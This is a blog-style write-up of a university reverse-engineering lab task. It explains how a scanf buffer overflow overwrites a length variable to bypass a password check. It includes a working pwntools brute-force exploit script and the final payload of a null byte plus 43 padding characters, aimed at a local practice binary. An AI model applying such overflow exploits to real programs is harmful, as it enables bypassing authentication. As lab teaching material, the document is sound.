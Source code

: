 ```yaml
---
layout: post
title:  UNIBUC_RE_lab_5_task_1
image: /assets/img/UNIBUC_RE.jpg
date:   2022-09-01 16:39:01
tags:
- pwn
description: Simple buffer overflow where you need to overflow an integer as to be 0
categories:
- UNIBUC RE
---
```


Simple buffer overflow where you need to overflow an integer as to be 0


The error is in the scanf function where the program reads as much as we want. We only need to make sure it doesn't contain any 00 because that marks the end.
![](/assets/img/2022-09-01-18-40-46.png)

There are 2 approaches to this:

1. Brute force

```
from pwn import *

for i in range(80):
    io = process("./task1")
    io.recvuntil("Enter password:")
    io.sendline('\0'+i*"x")
    text=io.recv(timeout=1)
    if b'length' not in text:
        print(text)
        print(i)
        break
    io.close()
io.interactive()

```
We send \0 so we get strlen to give 0 and also we override the other length buffer with the string terminator so we have 0 as the other size. 

memcmp will compare 0s with themselves and we win.

b'Congratulations! You have logged in.\nTask 1 solved\n'

So there are 44 characters between the read buffer and the size.

We can test this by inputing 45 characters and seeing if the number showed in the length requirement is the ascii code of the letter we just put in.
![](/assets/img/2022-09-01-19-05-34.png)

Now for the second approach:
![](/assets/img/image.png.png(2))
We look on the stack and see the space between the two variables.

44 bytes between the two variables can be seen in the picture above. that is '\0'+43*'a'+'\0'